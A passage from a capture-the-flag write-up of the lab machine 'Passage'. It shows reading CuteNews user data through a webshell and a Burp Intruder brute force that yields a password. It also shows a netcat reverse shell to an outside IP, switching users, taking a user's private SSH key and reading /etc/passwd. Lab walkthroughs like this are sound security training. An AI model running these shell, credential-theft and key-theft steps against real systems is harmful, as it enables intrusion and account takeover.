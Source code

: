 ```bash

command > cat ../cdata/users/fc.php
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzMwOTtzOjk6ImtpbS1zd2lmdCI7fX0=
```
The above base64 decodes to:
a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}

### 5. Access an account
Using Burp intruder with cluster bomb attack mode I enumerate though all usernames in the new naming convention and finally hit a valid account: `paul-coles:atlanta1`.
The account has some file-upload functionality, but it is stuck within the uploads folder. I can also try and access SSH - unfortunately it fails as I have no valid SSH key. However I can try switching from www-data to the paul's account using su. Firstly I use nc from the webshell to get a real shell.
```bash
command > which nc
/bin/nc

command > which bash 
/bin/bash

command > nc -e /bin/bash 10.10.15.158 9999
```
Get the shell and switch users.
```bash
kali@kali:~$ nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.10.206 59812
which python
/usr/bin/python
which python3
/usr/bin/python3
python3 -c "import pty; pty.spawn('/bin/bash');"
www-data@passage:/var/www/html/CuteNews/uploads$ su - paul
su - paul
Password: atlanta1

paul@passage:~$
```

### 6. Enumerate from user
To make things easier from here I swipe paul's private key and SSH into the account.
```bash
kali@kali:~/Desktop/htb/passage$ ssh -i paul_id_rsa paul@passage.htb
load pubkey "paul_id_rsa": invalid format
Last login: Wed Sep 23 00:04:38 2020 from 10.10.14.146
paul@passage:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  user.txt  Videos
paul@passage:~$ whoami
paul
paul@passage:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```